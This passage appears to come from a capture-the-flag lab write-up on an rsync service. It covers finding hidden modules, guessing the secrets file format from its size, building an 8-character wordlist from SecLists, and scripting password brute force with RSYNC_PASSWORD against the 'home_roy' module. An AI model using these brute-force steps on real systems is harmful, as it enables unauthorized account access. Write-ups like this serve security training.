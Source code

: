     </div>

    They are whitelisted to this Amazon IP, which is why I couldn't
    connect.

-   There are two additional modules in the config, `etc` and
    `home_roy`, both of which have `list = false`, which explain why I
    didn't see them earlier. I'll look at `etc` and why I was able to
    connect over IPv6 in [Beyond Root](#rsync-config).

`home_roy` links to `/home/roy`. It is not read only. When I
authenticate, it will be as user roy. And it defines a secrets file,
`/etc/rsyncd.secrets`. That's the file I noticed earlier but couldn't
read.

## Shell as roy

### Brute Force Password

If I try to connect to `home_roy`, it prompts for a password:



    root@kali# rsync rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy
    ...[snip]...
    Password: 
    @ERROR: auth failed on module home_roy
    rsync error: error starting client-server protocol (code 5) at main.c(1675) [Receiver=3.1.3]



I can't see the `rsyncd.secrets` file, but I know it is 13 bytes in
length from above. That's likely `roy:` + 8 character password + a new
line.

I'll create a wordlist of 8 byte words from
[SecList's](https://github.com/danielmiessler/SecLists)
`10-million-password-list-top-100000.txt`



    root@kali# grep -E '^.{8}$' /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt > 10-million-password-list-top-100000-8char.txt
    root@kali# ls -l 10-million-password-list-top-100000-8char.txt 
    -rwxrwx--- 1 root vboxsf 307611 Sep  1 07:20 10-million-password-list-top-100000-8char.txt



I can connect to `rsync` without providing a password using the
`RSYNC_PASSWORD` environment variable. If I set it to "password", the
connection still fails, but without prompting for a password:



    root@kali# export RSYNC_PASSWORD=password
    root@kali# rsync --list-only rsync://roy@[dead:beef::250:56ff:feb9:7e7c]:8730/home_roy
    ...[snip]...
    @ERROR: auth failed on module home_roy
    rsync error: error starting client-server protocol (code 5) at main.c(1675) [Receiver=3.1.3]
